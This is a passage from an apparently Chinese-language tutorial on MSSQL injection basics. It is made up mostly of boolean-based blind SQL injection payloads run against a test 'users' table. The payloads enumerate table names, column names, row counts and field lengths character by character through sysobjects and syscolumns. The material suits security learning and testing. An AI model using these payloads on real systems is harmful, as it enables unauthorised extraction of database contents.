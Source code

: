 ```sql
select * from users where id = '1' and 6 = (select top 1 len(name) from test..sysobjects where xtype='U' and len(name) not in(5))--+
-- 依次类推求完所有表的长度。。。
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_26_ydPu6MHX.png)
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_26_rwRxAqeV.png)
求当前数据库表的ascii码值
```sql
select * from users where id = '1' and 117 = ascii(substring((select top 1 name from test..sysobjects where xtype='u'),1,1))--+
-- 求第二个表的ascii码值
select * from users where id = '1' and 101 = ascii(substring((select top 1 name from test..sysobjects where xtype='u' and name not in ('users')),1,1))--+
-- 依次类推，分别求解
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_26_FtCmIGlE.png)
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_27_yj0foxmP.png)
求当前数据库某表的列名个数
```sql
-- 以下支持跨库查询
select * from users where id = '1' and 3 = (select count(*) from test..syscolumns where id = (select id from test..sysobjects where name='users'))--+
-- 或
-- 以下只支持查询该库下的列，不支持跨库查询
select * from users where id = '1' and 3 = (select count(*) from test..syscolumns where id = object_id('users'))--+
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_27_FT6ZgzCM.png)
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_27_n8BjoquW.png)
求当前数据库某表中列名的长度
```sql
select * from users where id = '1' and 2 = (select top 1 len(name) from test..syscolumns where id = object_id('users'))--+
-- 依次类推求各个字段的长度
select * from users where id = '1' and 8 = (select top 1 len(name) from test..syscolumns where id = object_id('users') and len(name) not in(2))--+
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_27_stBquwcK.png)
求当前数据库某表中列名的ascii码值
```sql
-- 可跨库查询
select * from users where id = '1' and 105 = ascii(substring((select top 1 name from test..syscolumns where id = (select id from test..sysobjects where name='users')),1,1))--+
-- 不跨库查询，推荐以下
select * from users where id = '1' and 105 = ascii(substring((select top 1 col_name(object_id('users'),1) from sysobjects),1,1))--+
-- {i} 为第i 个字段
select * from users where id = '1' and 105 = ascii(substring((select top 1 col_name(object_id('users'),{i}) from sysobjects),1,1))--+
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_28_1eA5oiuz.png)
求当前数据库某表字段的个数
```sql
select * from users where id = '1' and 	13 = (select count(*) from users)--+
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_28_pMtLOATz.png)
求当前数据库user表username字段第一个值的长度
```sql
select * from users where id = '1' and 	4 = (select top 1 len(username) from users)--+
-- 这里要是知道了id值，可以用where [condition] id 来代替 top 1 ... where len(username) not in (/\d/)
```